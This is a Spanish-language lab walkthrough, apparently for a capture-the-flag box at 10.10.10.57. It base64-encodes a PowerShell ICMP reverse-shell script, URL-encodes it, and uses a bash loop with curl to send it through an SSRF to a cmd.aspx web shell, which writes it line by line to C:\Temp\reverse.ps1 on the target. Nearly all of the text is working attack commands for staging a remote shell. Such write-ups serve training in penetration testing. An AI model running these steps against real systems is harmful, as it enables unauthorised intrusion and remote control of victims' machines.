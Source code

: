 1. Utilizamos una powershell

    ```bash
    pwsh
    ```

1. Codificamos el fichero en base64

    ```bash
    $fileContent = Get-Content -Raw ./icmp.ps1
    $fileContent
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($fileContent)
    $encode = [Convert]::ToBase64String($bytes)
    $encode | Out-File icmp.ps1.b64
    ```

1. En una shell linux normal modificamos los symbolos `+` y `=` para encodearlos en urlencode

    ```bash
    php --interactive
    print urlencode("+");
    %2B
    print urlencode("=");
    %3D
    ```

1. Modificamos todos los symbolos `+` por **%2B** y los symbolos `=` por **%3D**
1. Spliteamos el fichero en dimensiones de lineas iguales

    ```bash
    fold icmp.ps1.b64 > icmp
    ```

1. Nos creamos un script para automatizar el envio de cada linea del fichero

    ```bash
    #!/bin/bash

    function ctrl_c(){
        echo -e "\n\n[!] Saliendo...\n"
        exit 1
    }
    
    # Ctrl+C
    trap ctrl_c INT

    for line in $(cat icmp.ps1.b64); do
        command="echo ${line} >> C:\Temp\reverse.ps1"
        curl -s -v -X GET "http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx" --data-urlencode "xcmd=$command"
    done
    ```

1. Lanzamos el Script

    ```bash
    ./fileUpload.sh
    ```
